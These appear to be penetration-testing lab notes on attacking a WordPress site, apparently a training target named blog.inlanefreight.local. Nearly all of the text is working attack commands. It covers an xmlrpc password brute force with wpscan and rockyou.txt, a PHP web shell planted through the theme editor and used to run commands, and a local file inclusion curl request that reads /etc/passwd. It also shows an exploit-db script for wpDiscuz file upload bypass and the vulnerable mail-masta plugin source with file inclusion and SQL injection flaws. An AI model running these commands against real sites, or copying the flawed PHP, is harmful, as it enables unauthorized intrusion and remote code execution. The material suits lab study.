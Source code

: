 
Login bruteforce via xmlrpc with wpscan
```shell-session
sudo wpscan --password-attack xmlrpc -t 20 -U john -P /usr/share/wordlists/rockyou.txt --url http://blog.inlanefreight.local
```


A goodway to get a php web shell can be by adding a shell via admin panel to the theme editor

Executing on webshell added under theme editor in admin panel
```shell-session
curl http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?0=id
```

Automated web shell upload via metasploit
https://www.rapid7.com/db/modules/exploit/unix/webapp/wp_admin_shell_upload/



#### Vulnerable Plugins

##### mail-masta

Vulnerable to local file inclusion and sql injection due to no input sanitization


Source code
```php
<?php 

include($_GET['pl']);
global $wpdb;

$camp_id=$_POST['camp_id'];
$masta_reports = $wpdb->prefix . "masta_reports";
$count=$wpdb->get_results("SELECT count(*) co from  $masta_reports where camp_id=$camp_id and status=1");

echo $count[0]->co;

?>
```


Attack command for local file inclusion
```shell-session
curl -s http://blog.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```


##### wpDiscuz

Vulnerable to file upload bypass
[Exploit](https://www.exploit-db.com/download/49967)

Exploit Command used for exploit
```shell-session
python3 wp_discuz.py -u http://blog.inlanefreight.local -p /?p=1
```

Attack Command user for exploit
```shell-session
curl -s http://blog.inlanefreight.local/wp-content/uploads/2021/08/uthsdkbywoxeebg-1629904090.8191.php?cmd=id
```


